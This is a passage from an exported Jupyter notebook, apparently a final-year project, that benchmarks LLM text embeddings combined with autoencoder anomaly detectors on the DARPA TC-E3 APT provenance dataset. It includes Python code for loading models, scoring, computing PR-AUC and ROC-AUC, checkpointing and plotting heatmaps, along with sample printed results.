        out, _ = self.decoder(hidden_rep)
        return out.squeeze(1)

# ==========================================
# 3. PURE FLOAT16 EMBEDDING GENERATOR (NO BITSANDBYTES)
# ==========================================
def get_dynamic_embeddings(text_list, llm_name, pooling_type):
    print(f"   -> Loading {llm_name} into VRAM...")
    
    tokenizer = AutoTokenizer.from_pretrained(llm_name, trust_remote_code=True)
    if tokenizer.pad_token is None:
        tokenizer.pad_token = tokenizer.eos_token
        
    # Load everything purely in float16 directly to your GPU
    embedder = AutoModel.from_pretrained(
        llm_name, 
        torch_dtype=torch.float16, 
        trust_remote_code=True
    ).to(DEVICE)
    
    # Tiny batch size for massive models to prevent Out of Memory (OOM)
    if "llama" in llm_name.lower() or "mistral" in llm_name.lower():
        batch_size = 2 
    else:
        batch_size = 32

    embedder.eval()
    all_embs = []
    
    for i in range(0, len(text_list), batch_size):
        batch = text_list[i:i+batch_size]
        inputs = tokenizer(batch, padding=True, truncation=True, max_length=512, return_tensors="pt").to(DEVICE)
        
        with torch.inference_mode():
            # T5 Encoder-Decoder fix
            if embedder.config.is_encoder_decoder:
                outputs = embedder.encoder(**inputs)
            else:
                outputs = embedder(**inputs)
            
            if pooling_type == 'cls':
                emb = outputs.last_hidden_state[:, 0]
            elif pooling_type == 'mean':
                attention_mask = inputs['attention_mask'].unsqueeze(-1).float()
                sum_embeddings = torch.sum(outputs.last_hidden_state * attention_mask, dim=1)
                sum_mask = torch.clamp(attention_mask.sum(dim=1), min=1e-9)
                emb = sum_embeddings / sum_mask
            elif pooling_type == 'eos':
                sequence_lengths = inputs['attention_mask'].sum(dim=1) - 1
                emb = outputs.last_hidden_state[torch.arange(outputs.last_hidden_state.shape[0]), sequence_lengths]

            emb = torch.nn.functional.normalize(emb, p=2, dim=1)
            all_embs.append(emb.cpu().numpy())
            
        del inputs, outputs, emb
        torch.cuda.empty_cache()
        
    del tokenizer, embedder
    gc.collect()
    torch.cuda.empty_cache()
    
    return np.vstack(all_embs).astype(np.float32)

# ==========================================
# 4. MASTER AUC EVALUATION LOOP
# ==========================================
results_table = []

for performer, settings in CONFIG.items():
    print("\n" + "█"*80)
    print(f"🚀 EXTRACTING AUC METRICS FOR {performer.upper()}")
    print("█"*80)

    # -- A. Load Data & Isolate Test Set Only --
    if settings['context'] not in master_text_data.get(performer, {}):
        continue

    df = master_text_data[performer][settings['context']]
    text_col = 'sentence' if 'sentence' in df.columns else 'text'
    label_col = 'label' if 'label' in df.columns else 'y'
    df = df[[text_col, label_col]].dropna(subset=[text_col]).reset_index(drop=True)

    normal_df = df[df[label_col] == 0]
    anomaly_df = df[df[label_col] == 1]
    train_size = int(0.8 * len(normal_df))

    # We skip train_texts entirely to save massive amounts of time!
    test_texts = normal_df[text_col].tolist()[train_size:] + anomaly_df[text_col].tolist()
    test_labels = np.array([0] * (len(normal_df) - train_size) + [1] * len(anomaly_df))

    # -- B. Generate Test Embeddings --
    X_test_emb = get_dynamic_embeddings(test_texts, settings['llm'], settings['pooling'])

    # -- C. Initialize specific AE Architecture & Load Weights --
    input_dim = settings['dim']
    ae_type = settings['ae']
    
    if ae_type == 'Baseline':
        model = VanillaAE(input_dim).to(DEVICE)
    elif ae_type == 'LSTMAE':
        model = LSTMAE(input_dim).to(DEVICE)
    elif ae_type == 'Deep SVDD':
        model = DeepSVDDNet(input_dim).to(DEVICE)
        center = torch.zeros(128, device=DEVICE) 

    weights_path = settings['weights_file']
    print(f"   -> Loading weights: {weights_path}")
    
    try:
        model.load_state_dict(torch.load(weights_path, map_location=DEVICE))
    except Exception as e:
        print(f"   [!] Failed to load weights: {e}")
        continue
        
    model.eval()

    # -- D. Calculate Continuous Anomaly Scores --
    print("   -> Calculating anomaly scores...")
    test_tensor = torch.FloatTensor(X_test_emb).to(DEVICE)
    
    with torch.no_grad():
        if ae_type == 'Deep SVDD':
            test_errors = torch.sum((model(test_tensor) - center) ** 2, dim=1).cpu().numpy()
        else:
            test_errors = torch.mean((test_tensor - model(test_tensor)) ** 2, dim=1).cpu().numpy()

    # -- E. Calculate True AUC Metrics --
    pr_auc = average_precision_score(test_labels, test_errors)
    roc_auc = roc_auc_score(test_labels, test_errors)
    
    print(f"   🌟 PR-AUC:  {pr_auc:.4f}")
    print(f"   🌟 ROC-AUC: {roc_auc:.4f}")
    
    # Save to our table
    results_table.append({
        "Performer": performer.upper(),
        "Best Embedder": settings['llm'].split('/')[-1],
        "Best AE": ae_type,
        "PR-AUC": round(pr_auc, 4),
        "ROC-AUC": round(roc_auc, 4)
    })
    
    del test_tensor, model, X_test_emb
    gc.collect()
    torch.cuda.empty_cache()

# ==========================================
# 5. OUTPUT FINAL RESULTS TABLE
# ==========================================
print("\n" + "="*80)
print("🏆 FINAL THRESHOLD-INDEPENDENT METRICS")
print("="*80)

df_results = pd.DataFrame(results_table)
print(df_results.to_string(index=False))

# Optional: Save to CSV for easy copy-pasting into your thesis
df_results.to_csv("Final_AUC_Results.csv", index=False)
print("\n✅ Results successfully saved to 'Final_AUC_Results.csv'")

📦 Loading Master Dataset into memory...

████████████████████████████████████████████████████████████████████████████████
🚀 EXTRACTING AUC METRICS FOR CADETS
████████████████████████████████████████████████████████████████████████████████
   -> Loading BAAI/bge-m3 into VRAM...


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\huggingface_hub\file_download.py:949: FutureWarning: `resume_download` is deprecated and will be removed in version 1.0.0. Downloads always resume when possible. If you want to force a new download, use `force_download=True`.
  warnings.warn(


   -> Loading weights: D:\Waleed FYP\saved_weights_bge_m3\cadets_ProcessAll_Baseline.pth
   -> Calculating anomaly scores...
   🌟 PR-AUC:  0.4587
   🌟 ROC-AUC: 0.9996

████████████████████████████████████████████████████████████████████████████████
🚀 EXTRACTING AUC METRICS FOR CLEARSCOPE
████████████████████████████████████████████████████████████████████████████████
   -> Loading intfloat/e5-mistral-7b-instruct into VRAM...


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\huggingface_hub\file_download.py:949: FutureWarning: `resume_download` is deprecated and will be removed in version 1.0.0. Downloads always resume when possible. If you want to force a new download, use `force_download=True`.
  warnings.warn(
Loading checkpoint shards: 100%|██████████| 2/2 [00:18<00:00,  9.31s/it]


   -> Loading weights: D:\Waleed FYP\saved_weights_e5_mistral\clearscope_ProcessAll_DeepSVDD.pth
   -> Calculating anomaly scores...
   🌟 PR-AUC:  0.0073
   🌟 ROC-AUC: 0.6245

🏆 FINAL THRESHOLD-INDEPENDENT METRICS
 Performer          Best Embedder   Best AE  PR-AUC  ROC-AUC
    CADETS                 bge-m3  Baseline  0.4587   0.9996
CLEARSCOPE e5-mistral-7b-instruct Deep SVDD  0.0073   0.6245

✅ Results successfully saved to 'Final_AUC_Results.csv'


##### Heatmaps 
Heatmaps for each performer for all contexts having autoencoders at x-axis, all embedding models at y-axis. Total of 5 heatmaps for 5 performers...
All weights are saved in the respective directories

In [1]:
"""
APT Anomaly Detection — LLM × Autoencoder Benchmarking Grid
============================================================
Produces 5 publication-quality heatmaps, one per performer.
Each heatmap shows mean PR-AUC across all 5 contexts (rows = 16 LLMs, cols = 11 AEs).

Key fixes vs previous versions:
  • ModernBERT loads with device_map="auto" (avoids float16 CUDA assert on .to(DEVICE))
  • Vocab size clamped against actual embedding matrix, not config.vocab_size
  • CUDA context poison detection — script survives a dead GPU context per LLM
  • GMVAE unpacks all 4 outputs correctly
  • Tokenizer pad_token set robustly with multiple fallbacks
  • Checkpoint is a flat CSV (LLM × "AE__CTX" columns) — simple and crash-safe
  • Heatmap = mean across contexts; sub-context detail preserved in checkpoint CSV
"""

# ── stdlib ────────────────────────────────────────────────────────────────────
import os
import gc
import traceback

# ── third-party ───────────────────────────────────────────────────────────────
import numpy as np
import pandas as pd
import torch
import torch.nn as nn
import pickle
import matplotlib
matplotlib.use("Agg")
import matplotlib.pyplot as plt
import seaborn as sns
import transformers
from transformers import AutoTokenizer, AutoModel
from sklearn.metrics import average_precision_score

# ─────────────────────────────────────────────────────────────────────────────
# 0.  MONKEY-PATCHES  (Transformers ≥ 4.48)
# ─────────────────────────────────────────────────────────────────────────────
transformers.PreTrainedModel.all_tied_weights_keys = {}
try:
    from transformers.cache_utils import DynamicCache
    if not hasattr(DynamicCache, "from_legacy_cache"):
        DynamicCache.from_legacy_cache = classmethod(lambda cls, *a, **kw: cls())
    if not hasattr(DynamicCache, "get_usable_length"):
        DynamicCache.get_usable_length = lambda self, *a, **kw: 0
except ImportError:
    pass

# ─────────────────────────────────────────────────────────────────────────────
# 1.  GLOBAL CONFIG
# ─────────────────────────────────────────────────────────────────────────────
DEVICE = "cuda" if torch.cuda.is_available() else "cpu"
print(f"Device: {DEVICE}\n")

BASE = r"D:\Waleed FYP"          # root for all saved_weights_* folders

PERFORMERS = ["5dir", "cadets", "clearscope", "theia", "trace"]
CONTEXTS   = ["ProcessAll", "ProcessEvent", "ProcessExec", "ProcessParent", "ProcessNetflow"]

# Display names (y-axis / x-axis labels)
LLM_DISPLAY = [
    "BGE-M3", "GTE-Large-v1.5", "MPNet", "Contriever", "Jina-v3",
    "Nomic", "ModernBERT", "NV-Embed-v2", "Qwen2-7B",
    "E5-Mistral", "SFR-Mistral", "Linq-Mistral", "LLM2Vec-Llama3",
    "GTR-T5-Large", "UAE-Large", "Stella-400M",
]
AE_DISPLAY = [
    "Baseline", "Sparse", "Deep SVDD", "DAE", "VAE",
    "Beta-VAE", "GMVAE", "Attention AE", "LSTMAE", "Robust", "Contractive",
]
AE_TOKENS = [
    "Baseline", "Sparse", "DeepSVDD", "DAE", "VAE",
    "Beta-VAE", "GMVAE", "AttentionAE", "LSTMAE", "Robust", "Contractive",
]

# ── LLM configuration ────────────────────────────────────────────────────────
#   pool  : "cls" | "mean" | "eos"
#   dim   : embedding dimension
#   batch : inference batch size
#   dir   : folder containing .pth weight files
#   fmt   : filename template  (keys: performer, context, ae)
#   massive: True → load with 4-bit BnB quantisation + device_map="auto"
#   fp32  : True → load in float32 (skip float16 cast — needed for ModernBERT)

LLM_CONFIG = {
    "BGE-M3": dict(
        path="BAAI/bge-m3", dim=1024, pool="cls", batch=32,
        dir=f"{BASE}\\saved_weights_bge_m3",
        fmt="{performer}_{context}_{ae}.pth",
    ),
    "GTE-Large-v1.5": dict(
        path="Alibaba-NLP/gte-large-en-v1.5", dim=1024, pool="mean", batch=32,
        dir=f"{BASE}\\saved_weights_gte_large_v1_5",
        fmt="{performer}_{context}_gte_large_{ae}.pth",
    ),
    "MPNet": dict(
        path="sentence-transformers/all-mpnet-base-v2", dim=768, pool="mean", batch=32,
        dir=f"{BASE}\\saved_weights_mpnet",
        fmt="{performer}_{context}_{ae}.pth",
    ),
    "Contriever": dict(
        path="facebook/contriever", dim=768, pool="mean", batch=32,
        dir=f"{BASE}\\saved_weights_contriever",
        fmt="{performer}_{context}_{ae}.pth",
    ),
    "Jina-v3": dict(
        path="jinaai/jina-embeddings-v3", dim=1024, pool="mean", batch=32,
        dir=f"{BASE}\\saved_weights_jina_v3",
        fmt="{performer}_{context}_jina_{ae}.pth",
        jina=True,
    ),
    "Nomic": dict(
        path="nomic-ai/nomic-embed-text-v1.5", dim=768, pool="mean", batch=32,
        dir=f"{BASE}\\saved_weights_nomic",
        fmt="{performer}_{context}_{ae}.pth",
    ),
    "ModernBERT": dict(
        path="answerdotai/ModernBERT-large", dim=1024, pool="mean", batch=32,
        dir=f"{BASE}\\saved_weights_modernbert_large",
        fmt="{performer}_{context}_{ae}.pth",
        fp32=True,          # ← must NOT cast to float16 — triggers CUDA assert
    ),
    "NV-Embed-v2": dict(
        path="nvidia/NV-Embed-v2", dim=4096, pool="eos", batch=2,
        dir=f"{BASE}\\saved_weights_nvembed_v2",
        fmt="{performer}_{context}_{ae}.pth",
        massive=True,
    ),
    "Qwen2-7B": dict(
        path="Alibaba-NLP/gte-Qwen2-7B-instruct", dim=3584, pool="eos", batch=2,
        dir=f"{BASE}\\saved_weights_qwen2_hf",
        fmt="{performer}_{context}_qwen2_7b_bnb4bit_{ae}.pth",
        massive=True,
    ),
    "E5-Mistral": dict(
        path="intfloat/e5-mistral-7b-instruct", dim=4096, pool="eos", batch=2,
        dir=f"{BASE}\\saved_weights_e5_mistral",
        fmt="{performer}_{context}_{ae}.pth",
        massive=True,
    ),
    "SFR-Mistral": dict(
        path="Salesforce/SFR-Embedding-Mistral", dim=4096, pool="eos", batch=2,
        dir=f"{BASE}\\saved_weights_sfr_mistral",
        fmt="{performer}_{context}_{ae}.pth",
        massive=True,
    ),
    "Linq-Mistral": dict(
        path="Linq-AI-Research/Linq-Embed-Mistral", dim=4096, pool="eos", batch=2,
        dir=f"{BASE}\\saved_weights_linq_mistral",
        fmt="{performer}_{context}_{ae}.pth",
        massive=True,
    ),
    "LLM2Vec-Llama3": dict(
        path="McGill-NLP/LLM2Vec-Meta-Llama-3-8B-Instruct-mntp", dim=4096, pool="mean", batch=2,
        dir=f"{BASE}\\saved_weights_llm2vec_llama3",
        fmt="{performer}_{context}_llama3_manual_{ae}.pth",
        massive=True,
    ),
    "GTR-T5-Large": dict(
        path="sentence-transformers/gtr-t5-large", dim=1024, pool="mean", batch=32,
        dir=f"{BASE}\\saved_weights_gtr_t5_large",
        fmt="{performer}_{context}_{ae}.pth",
    ),
    "UAE-Large": dict(
        path="WhereIsAI/UAE-Large-V1", dim=1024, pool="cls", batch=32,
        dir=f"{BASE}\\saved_weights_uae_large_v1",
        fmt="{performer}_{context}_{ae}.pth",
    ),
    "Stella-400M": dict(
        path="dunzhang/stella_en_400M_v5", dim=1024, pool="mean", batch=32,
        dir=f"{BASE}\\saved_weights_stella_400m",
        fmt="{performer}_{context}_{ae}.pth",
    ),
}

# ─────────────────────────────────────────────────────────────────────────────
# 2.  MASTER DATASET
# ─────────────────────────────────────────────────────────────────────────────
MASTER_DATA_FILE = "all_data_with_sentences.pkl"
print("Loading master dataset …")
with open(MASTER_DATA_FILE, "rb") as f:
    master_text_data = pickle.load(f)
print("Done.\n")

# ─────────────────────────────────────────────────────────────────────────────
# 3.  AUTOENCODER ARCHITECTURES
# ─────────────────────────────────────────────────────────────────────────────

class VanillaAE(nn.Module):
    def __init__(self, d):
        super().__init__()
        self.enc = nn.Sequential(nn.Linear(d, 1024), nn.ReLU(), nn.Linear(1024, 256), nn.ReLU())
        self.dec = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, d))
    def forward(self, x): return self.dec(self.enc(x))


class DeepSVDDNet(nn.Module):
    def __init__(self, d):
        super().__init__()
        self.enc = nn.Sequential(nn.Linear(d, 1024), nn.ReLU(), nn.Linear(1024, 128))
    def forward(self, x): return self.enc(x)


class VAE(nn.Module):
    def __init__(self, d):
        super().__init__()
        self.fc1 = nn.Linear(d, 1024)
        self.mu  = nn.Linear(1024, 256)
        self.lv  = nn.Linear(1024, 256)
        self.fc3 = nn.Linear(256, 1024)
        self.fc4 = nn.Linear(1024, d)
    def encode(self, x):
        h = torch.relu(self.fc1(x)); return self.mu(h), self.lv(h)
    def reparam(self, mu, lv):
        return mu + torch.randn_like(lv) * torch.exp(0.5 * lv)
    def forward(self, x):
        mu, lv = self.encode(x)
        return self.fc4(torch.relu(self.fc3(self.reparam(mu, lv)))), mu, lv


class GMVAE(nn.Module):
    def __init__(self, d, k=5):
        super().__init__()
        self.enc = nn.Sequential(nn.Linear(d, 1024), nn.ReLU())
        self.mu  = nn.Linear(1024, 256)
        self.lv  = nn.Linear(1024, 256)
        self.pi  = nn.Linear(1024, k)
        self.dec = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, d))
    def forward(self, x):
        h = self.enc(x)
        mu, lv, pi = self.mu(h), self.lv(h), torch.softmax(self.pi(h), -1)
        z = mu + torch.randn_like(lv) * torch.exp(0.5 * lv)
        return self.dec(z), mu, lv, pi          # all four — never slice with [:3]


class AttentionAE(nn.Module):
    def __init__(self, d):
        super().__init__()
        self.attn = nn.MultiheadAttention(d, num_heads=8, batch_first=True)
        self.enc  = nn.Sequential(nn.Linear(d, 256), nn.ReLU())
        self.dec  = nn.Linear(256, d)
    def forward(self, x):
        x2 = x.unsqueeze(1)
        x2, _ = self.attn(x2, x2, x2)
        return self.dec(self.enc(x2.squeeze(1)))


class LSTMAE(nn.Module):
    def __init__(self, d):
        super().__init__()
        self.enc = nn.LSTM(d, 256, batch_first=True)
        self.dec = nn.LSTM(256, d, batch_first=True)
    def forward(self, x):
        _, (h, _) = self.enc(x.unsqueeze(1))
        out, _    = self.dec(h[-1].unsqueeze(1))
        return out.squeeze(1)


def build_ae(token, dim):
    if token in ("Baseline", "Sparse", "DAE", "Robust", "Contractive"):
        return VanillaAE(dim)
    if token == "DeepSVDD":   return DeepSVDDNet(dim)
    if token in ("VAE", "Beta-VAE"): return VAE(dim)
    if token == "GMVAE":      return GMVAE(dim)
    if token == "AttentionAE": return AttentionAE(dim)
    if token == "LSTMAE":     return LSTMAE(dim)
    return VanillaAE(dim)    # safe fallback

# ─────────────────────────────────────────────────────────────────────────────
# 4.  CUDA HELPERS
# ─────────────────────────────────────────────────────────────────────────────

def safe_empty_cache():
    try:
        torch.cuda.empty_cache()
    except Exception:
        pass


def cuda_alive():
    if DEVICE != "cuda":
        return True
    try:
        torch.zeros(1, device=DEVICE)
        return True
    except Exception:
        return False

# ─────────────────────────────────────────────────────────────────────────────
# 5.  REAL VOCAB SIZE  (avoids token-ID out-of-bounds CUDA assert)
# ─────────────────────────────────────────────────────────────────────────────

def real_vocab_size(model):
    """
    Read the actual embedding matrix row count.
    config.vocab_size can differ from the matrix on models like GTE-Large-v1.5,
    which is what originally caused the device-side assert.
    """
    try:
        return model.get_input_embeddings().weight.shape[0]
    except Exception:
        return getattr(model.config, "vocab_size", 999_999_999)

# ─────────────────────────────────────────────────────────────────────────────
# 6.  TOKENIZER SETUP
# ─────────────────────────────────────────────────────────────────────────────

def fix_tokenizer(tok):
    if tok.pad_token is not None:
        return tok
    for cand in (tok.eos_token, "<pad>", "[PAD]"):
        if cand and cand in tok.get_vocab():
            tok.pad_token = cand
            return tok
    tok.add_special_tokens({"pad_token": "[PAD]"})
    return tok

# ─────────────────────────────────────────────────────────────────────────────
# 7.  LLM LOADER
# ─────────────────────────────────────────────────────────────────────────────

def load_llm(key, cfg):
    """
    Returns (tokenizer, model).
    ModernBERT and any model with cfg["fp32"]=True are loaded in float32 and placed
    with device_map="auto" to avoid the manual .to(DEVICE) call that triggers the
    CUDA device-side assert on half-precision weight casts.
    Massive models (7B+) get 4-bit BitsAndBytes quantisation.
    """
    hf_kw = {"trust_remote_code": True}
    if cfg.get("jina"):
        hf_kw["use_flash_attn"] = False

    tok = fix_tokenizer(AutoTokenizer.from_pretrained(cfg["path"], trust_remote_code=True))

    if cfg.get("massive"):
        from transformers import BitsAndBytesConfig
        hf_kw["quantization_config"] = BitsAndBytesConfig(
            load_in_4bit=True,
            bnb_4bit_compute_dtype=torch.float16,
            bnb_4bit_use_double_quant=True,
        )
        hf_kw["device_map"] = "auto"
        model = AutoModel.from_pretrained(cfg["path"], **hf_kw)

    elif cfg.get("fp32"):
        # fp32 models: use device_map="auto" so HF handles placement,
        # no manual .to(DEVICE) which is what crashes ModernBERT
        hf_kw["torch_dtype"] = torch.float32
        hf_kw["device_map"]  = "auto"
        model = AutoModel.from_pretrained(cfg["path"], **hf_kw)

    else:
        hf_kw["torch_dtype"] = torch.float16
        model = AutoModel.from_pretrained(cfg["path"], **hf_kw).to(DEVICE)

    model.eval()
    return tok, model

# ─────────────────────────────────────────────────────────────────────────────
# 8.  EMBEDDING GENERATOR
# ─────────────────────────────────────────────────────────────────────────────

def embed_texts(texts, tok, model, pool, batch_size):
    """Returns float32 numpy array (N, dim) or None on failure."""
    vocab = real_vocab_size(model)
    all_embs = []

    for i in range(0, len(texts), batch_size):
        if not cuda_alive():
            print("      [!] CUDA context died mid-batch — aborting.")
            return None

        batch  = texts[i : i + batch_size]
        inputs = tok(batch, padding=True, truncation=True, max_length=512, return_tensors="pt").to(DEVICE)

        # Clamp token IDs to real vocab bound
        max_id = int(inputs["input_ids"].max())
        if max_id >= vocab:
            print(f"      [!] Token ID {max_id} >= vocab {vocab} — clamping.")
        inputs["input_ids"] = torch.clamp(inputs["input_ids"], 0, vocab - 1)

        try:
            with torch.inference_mode():
                try:
                    out = model(**inputs, output_hidden_states=True)
                except TypeError:
                    out = model(**inputs)

                # Extract last hidden state robustly
                if hasattr(out, "last_hidden_state") and out.last_hidden_state is not None:
                    hs = out.last_hidden_state
                elif hasattr(out, "hidden_states") and out.hidden_states is not None:
                    hs = out.hidden_states[-1]
                elif isinstance(out, dict):
                    if "last_hidden_state" in out:
                        hs = out["last_hidden_state"]
                    elif "hidden_states" in out:
                        raw = out["hidden_states"]
                        hs  = raw[-1] if isinstance(raw, tuple) else raw
                    else:
                        seq = inputs["input_ids"].shape[1]
                        cands = [v for v in out.values()
                                 if isinstance(v, torch.Tensor) and v.dim() == 3 and v.shape[1] == seq]
                        hs = cands[0] if cands else list(out.values())[0]
                elif isinstance(out, tuple):
                    hs = out[0]
                else:
                    raise ValueError(f"Unknown output type: {type(out)}")

                # Pool
                if pool == "cls":
                    emb = hs[:, 0]
                elif pool == "mean":
                    mask = inputs["attention_mask"].unsqueeze(-1).float()
                    emb  = (hs * mask).sum(1) / mask.sum(1).clamp(min=1e-9)
                elif pool == "eos":
                    lens = inputs["attention_mask"].sum(1) - 1
                    emb  = hs[torch.arange(hs.shape[0]), lens]
                else:
                    raise ValueError(f"Unknown pool: {pool}")

                emb = torch.nn.functional.normalize(emb.float(), p=2, dim=1)
                all_embs.append(emb.cpu().numpy())

        except Exception as e:
            print(f"      [!] Batch {i} error: {e}")
        finally:
            del inputs
            safe_empty_cache()

    return np.vstack(all_embs).astype(np.float32) if all_embs else None

# ─────────────────────────────────────────────────────────────────────────────
# 9.  ANOMALY SCORING
# ─────────────────────────────────────────────────────────────────────────────

def score(model, token, tensor, center=None):
    with torch.no_grad():
        if token == "DeepSVDD":
            z = model(tensor)
            return torch.sum((z - center) ** 2, dim=1).cpu().numpy()
        if token in ("VAE", "Beta-VAE"):
            recon, _, _ = model(tensor)
        elif token == "GMVAE":
            recon, _, _, _ = model(tensor)   # properly unpack pi
        elif token == "Robust":
            recon = model(tensor)
            return torch.mean(torch.abs(tensor - recon), dim=1).cpu().numpy()
        else:
            recon = model(tensor)
        return torch.mean((tensor - recon) ** 2, dim=1).cpu().numpy()

# ─────────────────────────────────────────────────────────────────────────────
# 10. CHECKPOINT HELPERS
# ─────────────────────────────────────────────────────────────────────────────
# Checkpoint columns are "AEDisplay__Context" e.g. "Baseline__ProcessAll"
# Rows are LLM display names.
# This flat structure is easy to load/save and inspect in Excel.

def col_name(ae_disp, ctx):
    return f"{ae_disp}__{ctx}"

def all_cols():
    return [col_name(ae, ctx) for ae in AE_DISPLAY for ctx in CONTEXTS]

def load_checkpoint(path):
    try:
        df = pd.read_csv(path, index_col=0)
        # Align: add any missing cols, reindex rows
        for c in all_cols():
            if c not in df.columns:
                df[c] = np.nan
        df = df.reindex(index=LLM_DISPLAY, columns=all_cols())
        print(f"   Resumed from {path}")
        return df
    except FileNotFoundError:
        df = pd.DataFrame(np.nan, index=LLM_DISPLAY, columns=all_cols())
        print("   No checkpoint — starting fresh.")
        return df

# ─────────────────────────────────────────────────────────────────────────────
# 11. HEATMAP GENERATOR
# ─────────────────────────────────────────────────────────────────────────────

def build_mean_matrix(df):
    """
    From a checkpoint DataFrame (rows=LLMs, cols="AE__CTX"),
    return a (16, 11) matrix of mean PR-AUC across all 5 contexts.
    """
    mat = np.full((len(LLM_DISPLAY), len(AE_DISPLAY)), np.nan)
    for j, ae in enumerate(AE_DISPLAY):
        ctx_cols = [col_name(ae, ctx) for ctx in CONTEXTS]
        present  = [c for c in ctx_cols if c in df.columns]
        if present:
            mat[:, j] = df[present].mean(axis=1).values
    return mat


def save_heatmap(mat, performer):
    fig, ax = plt.subplots(figsize=(16, 12))

    sns.heatmap(
        mat,
        annot=True, fmt=".3f", cmap="YlGnBu",
        xticklabels=AE_DISPLAY, yticklabels=LLM_DISPLAY,
        cbar_kws={"label": "Mean PR-AUC (avg. across 5 contexts)", "shrink": 0.8},
        vmin=0.0, vmax=1.0,
        mask=np.isnan(mat),
        linewidths=0.4, linecolor="white",
        ax=ax,
    )

    ax.xaxis.tick_top()
    ax.xaxis.set_label_position("top")
    ax.set_xticklabels(ax.get_xticklabels(), rotation=40, ha="left", fontsize=11)
    ax.set_yticklabels(ax.get_yticklabels(), rotation=0, fontsize=11)

    ax.set_title(
        f"LLM × Autoencoder PR-AUC — Performer: {performer.upper()}\n"
        f"Mean across {len(CONTEXTS)} system-call contexts  |  DARPA TC-E3 ADAPT Dataset",
        fontsize=16, fontweight="bold", pad=28,
    )
    ax.set_xlabel("Autoencoder Architecture", fontsize=13, fontweight="bold", labelpad=14)
    ax.set_ylabel("LLM Embedding Model",      fontsize=13, fontweight="bold", labelpad=14)

    plt.tight_layout()
    out = f"Heatmap_{performer.upper()}.png"
    plt.savefig(out, dpi=400, bbox_inches="tight")
    plt.close()
    print(f"   Heatmap saved → {out}")

# ─────────────────────────────────────────────────────────────────────────────
# 12. MAIN
# ─────────────────────────────────────────────────────────────────────────────

for performer in PERFORMERS:
    print("\n" + "=" * 72)
    print(f"  PERFORMER: {performer.upper()}")
    print("=" * 72)

    ckpt_path = f"checkpoint_{performer}.csv"
    df_ck = load_checkpoint(ckpt_path)

    # ── LLM loop ─────────────────────────────────────────────────────────────
    for llm_key in LLM_DISPLAY:
        cfg = LLM_CONFIG[llm_key]

        # Skip if every cell for this LLM is already filled
        row_cols = all_cols()
        if df_ck.loc[llm_key, row_cols].notna().all():
            print(f"\n   {llm_key}: complete — skipping.")
            continue

        # Skip if no weight files exist at all
        has_any = any(
            os.path.exists(os.path.join(
                cfg["dir"], cfg["fmt"].format(performer=performer, context=ctx, ae=ae)
            ))
            for ctx in CONTEXTS for ae in AE_TOKENS
        )
        if not has_any:
            print(f"\n   {llm_key}: no weight files found — skipping.")
            continue

        print(f"\n   Loading {llm_key} …")
        try:
            tok, embedder = load_llm(llm_key, cfg)
        except Exception as e:
            print(f"   [!] Could not load {llm_key}: {e}")
            traceback.print_exc()
            continue

        # ── Build embeddings per context ──────────────────────────────────
        ctx_cache = {}   # ctx → {"emb": ndarray, "labels": ndarray}

        for ctx in CONTEXTS:
            if ctx not in master_text_data.get(performer, {}):
                continue

            # Check if all AEs for this (llm, ctx) are already in checkpoint
            ctx_done = all(
                pd.notna(df_ck.loc[llm_key, col_name(ae, ctx)])
                for ae in AE_DISPLAY
            )
            if ctx_done:
                print(f"      [{ctx}] already in checkpoint.")
                continue

            if not cuda_alive():
                print(f"      [!] CUDA dead before embedding {ctx} — stopping contexts for {llm_key}.")
                break

            raw       = master_text_data[performer][ctx]
            text_col  = "sentence" if "sentence" in raw.columns else "text"
            label_col = "label"    if "label"    in raw.columns else "y"
            raw       = raw[[text_col, label_col]].dropna(subset=[text_col]).reset_index(drop=True)

            normal_df  = raw[raw[label_col] == 0]
            anomaly_df = raw[raw[label_col] == 1]
            train_size = int(0.8 * len(normal_df))

            test_texts  = normal_df[text_col].tolist()[train_size:] + anomaly_df[text_col].tolist()
            test_labels = np.array([0] * (len(normal_df) - train_size) + [1] * len(anomaly_df))

            X = embed_texts(test_texts, tok, embedder, cfg["pool"], cfg["batch"])
            if X is not None:
                ctx_cache[ctx] = {"emb": X, "labels": test_labels}
                print(f"      [{ctx}] Embeddings: {X.shape}")
            else:
                print(f"      [{ctx}] Embedding failed.")

        # Unload the LLM — no longer needed
        del tok, embedder
        gc.collect()
        safe_empty_cache()

        if not cuda_alive():
            print(f"   [!] CUDA poisoned after unloading {llm_key} — saving and skipping.")
            df_ck.to_csv(ckpt_path)
            continue

        # ── Evaluate all AEs on each cached context ───────────────────────
        for ae_idx, ae_tok in enumerate(AE_TOKENS):
            ae_disp = AE_DISPLAY[ae_idx]

            for ctx, cache in ctx_cache.items():
                col = col_name(ae_disp, ctx)

                if pd.notna(df_ck.loc[llm_key, col]):
                    continue    # already computed in a previous run

                weights_path = os.path.join(
                    cfg["dir"],
                    cfg["fmt"].format(performer=performer, context=ctx, ae=ae_tok),
                )
                if not os.path.exists(weights_path):
                    continue

                ae_model = build_ae(ae_tok, cfg["dim"]).to(DEVICE)
                center   = torch.zeros(128, device=DEVICE) if ae_tok == "DeepSVDD" else None

                try:
                    ae_model.load_state_dict(torch.load(weights_path, map_location=DEVICE))
                    ae_model.eval()

                    tensor = torch.FloatTensor(cache["emb"]).to(DEVICE)
                    scores = score(ae_model, ae_tok, tensor, center)
                    auc    = average_precision_score(cache["labels"], scores)

                    df_ck.loc[llm_key, col] = auc
                    print(f"      {llm_key} + {ae_disp} [{ctx}]  PR-AUC = {auc:.4f}")

                except Exception as e:
                    print(f"      [!] {ae_disp} [{ctx}]: {e}")
                finally:
                    del ae_model
                    safe_empty_cache()

            # Save after every AE column — crash-safe
            df_ck.to_csv(ckpt_path)

        del ctx_cache
        gc.collect()
        safe_empty_cache()

    # ── Generate heatmap for this performer ───────────────────────────────
    print(f"\n   Generating heatmap for {performer.upper()} …")
    try:
        mat = build_mean_matrix(df_ck)
        if np.isnan(mat).all():
            print("   No data — skipping heatmap.")
        else:
            save_heatmap(mat, performer)
    except Exception as e:
        print(f"   [!] Heatmap error: {e}")
        traceback.print_exc()

print("\n✅  All done.")

